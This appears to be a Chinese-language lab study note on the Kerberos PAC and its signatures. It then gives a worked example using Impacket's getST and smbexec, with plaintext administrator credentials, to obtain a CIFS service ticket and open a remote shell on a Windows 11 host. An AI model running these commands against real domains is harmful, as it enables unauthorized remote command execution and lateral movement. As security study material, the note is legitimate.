 ## PAC
微软在自己的产品中加入了PAC的概念，在认证过程中返回的TGT和ST都包含PAC，PAC包含各种授权信息、附加凭据、策略信息、权限信息，PAC可以在本地直接与ACL比对验证权限。

PAC中包含两个数字签名：

1、PAC_SERVER_CHECKSUM：使用服务密钥签名

2、PAC_PRIVSVR_CHECKSUM：使用KDC密钥签名

数字签名的原因：防止不受信任的服务用无效PAC为自己伪造票据；

在默认情况下，由于防止流量过大，PRISVR验证不开启

# 案例1：Impacket请求win11的CIFS服务票据
![](../images/a74a33e8b410cb1a4e9f108fbe7ce105.jpeg)

```plain
C:\root> impacket-getST -dc-ip 172.16.80.189 -spn cifs/DESKTOP-GBE538B sec.com/administrator:Az123456@
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for user
[*] Getting ST for user
[*] Saving ticket in administrator.ccache

C:\root> export KRB5CCNAME=administrator.ccache

C:\root> impacket-smbexec -no-pass -k DESKTOP-GBE538B
Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\System32>

## 这里有可能会报SMB SessionError: STATUS_MORE_PROCESSING_REQUIRED
## 先检查三方时间/时区是否正确，还可以尝试cifs/DESKTOP-GBE538B.sec.com,cifs还可以换成host，
```